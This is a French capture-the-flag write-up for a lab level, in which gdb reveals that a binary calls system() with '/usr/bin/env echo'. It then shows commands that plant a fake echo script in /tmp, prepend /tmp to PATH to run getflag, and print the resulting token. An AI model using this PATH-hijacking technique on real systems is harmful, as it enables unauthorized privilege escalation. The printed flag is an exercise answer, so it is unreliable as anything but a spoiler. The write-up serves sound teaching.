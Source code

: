 # Level 03

Dans le home on peut apercevoir un exécutable, que lorsqu'on le lance, nous ecrit dans le terminal: `Exploit me`.

La première chose qu'on pense c'est de voir comment est construit cet exécutable.
Et pour ce faire, on lance gdb avec l'exécutable comme argument.

Ensuite désassembler l'entry point.

```
$ gdb level03
(gdb) disassemble main
Dump of assembler code for function main:
	...
   0x080484f7 <+83>:	movl   $0x80485e0,(%esp)
   0x080484fe <+90>:	call   0x80483b0 <system@plt>
	...
End of assembler dump.
```

Et la permière chose que l'on voit dans ce main est le call de la fonction system avec comme argument la string à cette position `0x80485e0`

Donc on va regarder cette position:
```
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
(gdb)
```
On voit donc que l'argument de system est `"/usr/bin/env echo Exploit me"`. Ce qui nous fait penser qu'on pourrait mettre un faux exécutable echo.

Pour ce faire on va créer le script/exécutable, qu'on va mettre dans /tmp/echo, lui donner les bonnes permissions et un path directement sur /tmp

```
$ echo "getflag" > /tmp/echo
$ chmod 755 /tmp/echo
$ export PATH=/tmp:$PATH
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

